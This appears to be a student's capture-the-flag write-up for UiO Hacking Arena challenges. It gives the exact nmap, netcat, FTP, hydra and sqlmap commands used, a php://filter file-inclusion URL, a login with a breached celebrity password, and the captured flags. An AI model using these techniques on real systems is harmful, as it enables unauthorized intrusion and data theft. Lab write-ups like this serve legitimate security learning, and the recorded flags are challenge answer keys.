

# Networking 

## Bluebox

 

 The answer is: bluebox-test-server.mit.edu (18.8.3.1)
  
<b>Description:</b>
 
  
        nmap -sL 18.8.0.0/16 | grep blue

 

----------------------------------------------
 

## Hackingarena ports
 
 

 The answer is: 62

 I used nmmapper.com to find all the subdomains since nmap is slow and unreliable.
 and then scanned the ports for each of them.

 

----------------------------------------------
 

## Service flag
 

 

------------------------------

 

# Services

## Minuteman

----------------------------------------------------------

**Points**: 120

**The Flag**: UiO-Hacking-Arena{C0ld_war_1s_0v4r}

**The Task**: Find the flag here: kenobi.hackingarena.com, port range: 3000-3500

**Solution**:

1. I scanned the ports with nmap, and found that port 3202 is open

        sudo nmap -sS kenobi.hackingarena.com -p 3000-3500

2. Then i connected to the service using netcat to see what service it is, and it showed me "Good day Mr. President!
It's Monday 7 November, 1983.
Welcome to Able Archer!
Enter the SILO 73C password".

        nc kenobi.hackingarena.com 3202

3. Then i googled the SILO 73C passoword.

        https://nakedsecurity.sophos.com/2013/12/11/for-nearly-20-years-the-launch-code-for-us-nuclear-missiles-was-00000000/

**Pictures**:

## Service 3

----------------------------------------------------------

**Points**: 120

**The Flag**: Hacking-Arena{St0p_spy1ng_0n_us_Mark}

**The Task**: There's a service on kenobi.hackingarena.com in the port range 4000-4500. Find the tricky flag :)

**Solution**:

1. I scanned the ports with nmap, and found that port 4400 is open.

        sudo nmap -sS kenobi.hackingarena.com -p 4000-4500

2. Then i connected to the service using netcat to see what service it is, and it showed me that it is vsFTP service.

        nc kenobi.hackingarena.com 4400

3. Then i logged in with user anonymous and random password, and found a file with error.log.

        ftp kenobi.hackingarena.com -P 4400

        anonymous
        random@
        dir
        get error.log

4. There was a list of users in that file that passed login, and there was 2 of them that was not anonymous.

5. Then i googled mark zuckerburg password and then i got info that he used dadada as a bad password.

        https://www.vanityfair.com/news/2016/06/mark-zuckerberg-terrible-password-revealed-in-hack

6. I tried loging in as MarkZuckerberg and dadada as password and it worked!

        ftp 158.39.48.133 -P 4400
        MarkZuckerberg
        dadada
        dir #To show the files
        get flag.txt  #To download the file 

**Pictures**:

 

# Web hacking

## Norwegian girl name 

**Find the flag here: http://vader.hackingarena.com:809/**

--------------------------------------------------------------------------------

I tried different methods and tools like brutex, burp-suit, nmap etc.

and then tried hydra to brutforce into the website but the passwords i got didnt work.

So i made a girl name list and run hydra again. That gave me couple of names which i tried Until i got Camilla as password

 

## Airport
----------------------------------------------------------

**The Flag**: UiO-Hacking-Arena{Advanced_P0ST_Exp0itat1on}

**Solution**:

 I Used --form to use POST method

        python sqlmap.py  -u http://chewbacca.hackingarena.com:808/index.php --form --dbs

        python sqlmap.py  -u http://chewbacca.hackingarena.com:808/index.php --form -D Airport --tables

        python sqlmap.py  -u http://chewbacca.hackingarena.com:808/index.php --form -D Airport -T Flagflag --dump

**Pictures**

 

## Beatles song catalogue 2

----------------------------------------------------------

**The Flag**: Hacking-Arena{Yellow_Flagmarine}

**Solution**:
* I found out that i can show files from the photo paramenter så i converted the index.php to base.64 and read the source code.

        http://yoda.hackingarena.com:802/photo/index.php?photo=php://filter/convert.base64-encode/resource=/var/www/site/index.php

* In the source there was a comment that was refering to include db_connect.php, and in the source code of db_connect i found a comment that was refering to queryanalyer. after many guessings i found it in /var/www/site/queryanalyzer/index.php. Så i went back and opened it in the main link.

        http://yoda.hackingarena.com:802/queryanalyzer/index.php

* I used the following sql commands

        SHOW DATABASES;
        SHOW TABLES;
        SELECT * FROM SuperSecretFlag;
        

Note: this task was hell!

**Pictures**

 

## Beatles song catalogue 3

----------------------------------------------------------

**The Flag**: HCSC{composed_1nj4ct10n_4asy?}

**Solution**:
* I solved it with sqlmap.

sudo sqlmap -u http://kenobi.hackingarena.com:912/index.php --form --dbs --level 4 --risk 3 --threads 10 --dbms=mysql
sudo sqlmap -u http://kenobi.hackingarena.com:912/index.php --form -D BeatlesData --tables --level 3 --risk 3 --threads 10 --dbms=mysql
sudo sqlmap -u http://kenobi.hackingarena.com:912/index.php --form -D BeatlesData -T SuperSecretFlag --dump --level 3 --risk 3 --threads 10 --dbms=mysql

**Pictures**

